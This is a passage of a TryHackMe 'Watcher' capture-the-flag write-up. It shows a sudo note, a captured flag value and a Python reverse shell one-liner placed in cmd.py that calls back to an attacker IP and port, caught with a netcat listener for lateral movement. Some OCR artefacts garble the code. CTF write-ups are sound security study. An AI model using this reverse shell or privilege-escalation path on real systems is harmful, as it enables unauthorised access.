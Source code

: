 Under mat dir found notes.txt

```bash

toby@watcher:/home/mat$ ls
cow.jpg  flag_5.txt  note.txt  scripts
toby@watcher:/home/mat$ cat note.txt 
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will

```

now we earlier saw that a cron job it set up by matt for toby at cow.sh we will use it to get revshell

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415202905.png)

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415202918.png)

### Flag 5
```
mat@watcher:~$ cat flag_5.txt
cat flag_5.txt
FLAG{live_by_the_cow_die_by_the_cow}
```


now edit cmd.py scipt

![](Tryhackme/Linux/Watcher/attachments/Pasted%20image%2020240415204843.png)

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);ss
.connect(("10.9.237.141",2929));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os..
dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")

```

```bash

 sudo -u will /usr/bin/python3 /home/mat/scripts/will_script.py *


┌──(dedrknex㉿kali)-[~/oscp/Tryhackme/watcher_10.10.65.41]
└─$ nc -lnvp 2929
listening on [any] 2929 ...
connect to [10.9.237.141] from (UNKNOWN) [10.10.65.41] 51420
will@watcher:~/scripts$ 



```
